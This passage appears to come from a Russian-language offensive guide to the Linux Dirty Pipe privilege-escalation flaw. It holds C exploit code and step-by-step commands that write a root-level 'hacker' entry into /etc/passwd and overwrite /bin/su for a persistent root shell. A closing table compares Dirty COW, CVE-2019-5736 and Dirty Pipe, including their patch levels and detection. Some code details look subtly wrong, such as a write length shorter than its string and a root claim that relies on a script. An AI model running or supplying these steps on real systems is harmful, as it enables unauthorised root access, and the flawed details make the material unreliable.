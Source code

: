 ```c
  int page_size = sysconf(_SC_PAGESIZE);
  lseek(fd, page_size, SEEK_SET);
  write(p[1], buffer, page_size);

  // 5. Перезапись целевого файла
  splice(target_fd, &offset, p[1], NULL, 1, 0);
  write(p[1], "hacker:x:0:0:", 12);
}
```

**Пошаговая эксплуатация:**  
```bash
# Компиляция
gcc dirtypipe.c -o dirtypipe

# Запись в /etc/passwd
./dirtypipe /etc/passwd 1 'hacker:$6$salt$hash:0:0:'

# Проверка
tail -n1 /etc/passwd  # hacker:...:0:0:
```

**Механизм:**  
1. Создается pipe с флагом `PIPE_BUF_FLAG_CAN_MERGE`.  
2. Через `splice()` данные направляются в целевой файл.  
3. Флаг позволяет "слить" данные в существующий кэш страниц.  

---

##### [TA0003] – Persistence  
**Создание SUID-шелла:**  
```bash
# Перезапись /bin/su
./dirtypipe /bin/su 0 '#!/bin/bash\nbash -p'

# Проверка
/bin/su -c whoami  # root
```

---

### Сравнительная таблица

| Параметр             | Dirty COW              | CVE-2019-5736     | Dirty Pipe             |
|----------------------|------------------------|-------------------|------------------------|
| **Тип уязвимости**   | Race condition         | File descriptor   | Uninit pipe flag       |
| **Сложность**        | Средняя                | Высокая           | Низкая                 |
| **Стабильность**     | Низкая (50% успех)     | Высокая (100%)    | Высокая (100%)         |
| **Требуемый доступ** | Локальный пользователь | Контейнер         | Локальный пользователь |
| **Патч**             | Ядро 4.8.3+            | runc 1.0.0-rc7+   | Ядро 5.16.11+          |
| **Обнаружение**      | Аудит madvise()        | Мониторинг memfd  | Анализ splice()        |

---